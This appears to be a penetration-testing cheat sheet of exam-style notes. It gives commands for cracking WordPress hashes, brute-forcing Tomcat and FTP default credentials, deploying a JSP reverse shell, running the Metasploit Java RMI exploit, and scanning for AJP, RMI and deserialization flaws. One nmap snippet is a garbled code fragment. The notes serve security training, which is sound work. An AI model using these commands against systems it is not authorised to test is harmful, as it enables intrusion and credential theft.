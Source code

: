 

### Brute force Wordpress (PHPASS)
`cudahashcat64.exe -m 400 -a 3 hashfile wordlist`

## Apache Tomcat
https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote
https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/

**Apache Tomcat - Manager port 8180**
default credentials
`msf > use auxiliary/scanner/http/tomcat_mgr_login`
**Then deploy a reverse shell**
JSP shell is located in: /usr/share/laudanum/

/usr/share/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
`hydra -C default_accounts.txt ftp://localhost`

**[8009,Apache Jserve]**

```bash
nmap','-n','-sV','-Pn','-vv','-p',port,'--script','banner,ajp-auth,ajp-headers,ajp-methods,ajp-request,vulners','--script-args', "http.useragent=%s" % userAgent,'-oA','/root/scripts/recon_enum/results/exam/http/%s_%s_jserve' % (ip_address, port),ip_address]
```



## Java RMI Registry port 1099
`nmap -sT 192.168.13.29 -p 1099 -sV`
`msf ->  /exploit/multi/misc/java_rmi_server`
`nmap -sV -p {port} --script="rmi-vuln-classloader,rmi-dumpregistry" {ip}`



## Java Deserialization

 **(Jboss, WebLogic, WebSphere, Jenkins)**

https://www.owasp.org/index.php/Deserialization_of_untrusted_data
https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
serialization itself is a process which allows for applications to convert data into a binary format, which is suitable for saving to disk. Deserialization is other way around. /usr/share/laudanum/ for shells

`nmap -p 1100 --script=rmi-vuln-classloader 10.11.1.73`